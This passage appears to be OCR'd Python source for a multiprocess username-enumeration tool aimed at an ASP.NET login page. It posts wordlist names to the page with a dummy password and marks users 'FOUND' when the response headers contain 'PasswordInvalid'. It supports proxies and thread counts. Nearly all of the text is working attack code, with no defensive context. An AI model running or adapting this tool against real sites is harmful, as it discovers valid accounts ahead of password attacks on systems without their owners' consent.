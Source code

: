         req = requests.request('POST',url,headers=headers,data=dataraw, proxies=proxies)

        x = "".join('{}: {}'.format(k, v) for k, v in req.headers.items())

        if re.search(r"{}".format(failstr), str(x).replace('\n','').replace('\r','')):
            queue.put((proc_id, "FOUND", user))
            found_queue.put((proc_id, "FOUND", user))
            if stop: break
        elif verbose:
            queue.put((proc_id, "TRIED", user))
        queue.put(("PERCENT", proc_id, (counter/total)*100))

except (urlexcept.NewConnectionError, requests.exceptions.ConnectionError):
    print("[ATTENTION] Connection error on process {}! Try lowering the amount of threads with the -c parameter.".format(proc_id))
# Arguments to simple variables
wordlist = args.wordlist
url = args.url
payload = ['ctl00%24Main%24userNameBox:{USER}', 'ctl00%24Main%24passwordBox:a', 'ctl00%24Main%24ctl05:Login', '__EVENTTARGET:', '__EVENTARGUMENT:', '__VIEWSTATE:']
verbose = args.v
thread_count = args.c
failstr = "PasswordInvalid"
stop = args.s
proxy= args.p

print(bcolors.HEADER + """
  __   ___  __     ___
"""+ bcolors.ENDC);
print("URL: "+url)
print("Payload: "+str(payload))
print("Fail string: "+failstr)
print("Wordlist: "+wordlist)
if verbose: print("Verbose mode")
if stop: print("Will stop on first user found")

proxies = {'http': '', 'https': ''}
if proxy:
    proxies = {'http': proxy, 'https': proxy}

print("Initializing processes...")
# Distribute wordlist to processes
wlfile = open(wordlist, "r", encoding="ISO-8859-1")  # or utf-8
tothread = 0
wllist = [[] for i in range(thread_count)]
for user in wlfile:
    wllist[tothread-1].append(user.strip())
    if (tothread < thread_count-1):
        tothread+=1
    else:
        tothread = 0
